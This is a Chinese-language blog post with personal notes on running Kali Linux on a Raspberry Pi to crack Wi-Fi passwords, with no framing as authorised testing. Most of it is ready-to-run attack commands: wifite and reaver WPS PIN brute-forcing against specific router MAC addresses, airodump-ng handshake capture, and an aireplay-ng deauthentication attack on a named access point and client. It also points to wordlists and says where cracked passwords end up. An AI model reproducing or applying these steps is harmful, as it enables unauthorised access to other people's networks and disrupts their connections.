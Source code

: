```yaml
---
layout: post
title: 在树莓派上使用 Kali 进行"渗透测试"
category: Linux
tags: [Kali, 树莓派, 渗透测试]
latest: 2015年12月4日 14:10:44
---
```


Kali 是 BT 的前身，在渗透领域目前还没有发现比 Kali 更专业的 Linux 了。

Kali for Raspberry
-

在 Linux 虚拟机或者 Live 镜像中刻录 Kali 镜像到 MiniSD/TF 卡：

```
dd if=kali-pi.img of=/dev/sdb bs=512k
```

- **如何查看 U 盘挂载那个文件上了？Sdb sdb2 sdb1 ?**

- **开启远程桌面服务**

```
$ sudo apt-get install xrdp
$ sudo service xrdp start
```

- **用一条网线连接树莓派和笔记本**

`arp -a` 后 `192.168.137.1` 下面不一定非是动态的才是树莓派上 Kali 获得的 IP，静态的也有可能

```
apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y
```

树莓派跑 pin
-

```
lsusb

apt-get install screen    # 为了可以 SSH 离线

apt-get install cowpatty 	# 不安装运行该程序的时候会提示

iwconfig

screen

wifite
```

寻找绿色信号的 带有wpa/wpa2 标志的、带有wps标志的目标。
 
然后天线找到最佳位置后按 ctrl+c，在下面新出现的一行输入你选定的目标行号，回车确定后就开始了自动探测。

破解时间快的话甚至可以秒破，慢的话就不好说了。

`~` 目录下将保存 wifi 的密码。


- **使用 reaver 破解开启 wps 功能的路由器密码**

```
reaver  -i  mon0  -b 8C:21:0A:5F:A2:FA  -a  -S  -vv  -d2  -t 5 -c 1
airmon-ng start wlan0
airodump-ng mon0
```

Aircrack-ng
-

```
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon

airmon-ng start wifi0 9

reaver -i mon0 -b F8:D1:11:31:50:24 -vv -c 6 -p 88948935
```

- **搜索不到无线?**

重置网络。

- **执行 `airmon-ng start wlan0` 提示错误，执行 `airodump wlan0mon`失败?**

```
sudo apt-get install rfkill
```

- Failed to associate with … …

- Request occur timeout … …

```
airodump-ng -c 6 –w wpa-wps wlan0mon

aireplay-ng -0 10 -a 50:BD:5F:0F:B9:BA -c BC:3A:EA:60:6C:61 wlan0mon
```

Screen 的使用
-

```
screen -S cracking    # 开启一个离线任务
screen -r cracking    # 恢复一个离线任务
exit                  # 退出 screen 会话
screen -ls            # 查看所有 screen 会话
screen -wipe          # 删除会话
```
参考
-

- <http://os.ctocio.com.cn/68/12957068.shtml>

- <http://shumeipai.nxez.com/2013/10/15/raspberry-pi-and-a-network-cable-directly-connected-laptop.html>

- <http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists>

- <http://www.oschina.net/question/12_7909>

- <http://www.aircrack-ng.org/doku.php?id=cracking_wpa>

- <http://www.openwall.com/john/>

- [树莓派(raspberrypi)安装aircrack-ng,reaver及wifi破解教程[整理] | FindSpace](http://www.findspace.name/res/1184)
